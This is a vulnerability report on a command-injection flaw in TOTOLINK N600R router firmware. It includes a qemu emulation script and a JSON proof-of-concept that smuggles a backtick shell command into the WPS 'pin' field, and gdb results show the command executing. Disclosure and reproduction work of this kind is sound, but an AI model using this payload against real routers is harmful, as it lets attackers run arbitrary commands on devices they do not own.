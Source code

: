 ﻿# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-injection attack

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## injection point 0x41caac

There is an injection attack vulnerability in the function FUN_0041c824.
The code disassembled by ghidra is shown in the figure below:

![enter image description here](https://i.miji.bid/2025/05/07/456dd04d343e04d87e7fde1fc2a4b66b.png)

### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41caac_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setWiFiWpsConfig",
	"wifiIdx" : "1",
	"wscMode" : "1",
	"wscPinMode" : "1",
	"pin" : "11111111111111111111`ls>41caac.txt`ll"
}
```

### Operation Results
When running to the system instruction in gdb, it is found that the executed string contains the injected command.
After execution, you can see that the corresponding file is generated in the corresponding folder.
![enter image description here](https://i.miji.bid/2025/05/07/bb335c1b28c2205899b0380cc1fcce4a.png)

![enter image description here](https://i.miji.bid/2025/05/07/c33057517510f69f307285847bccec91.png)


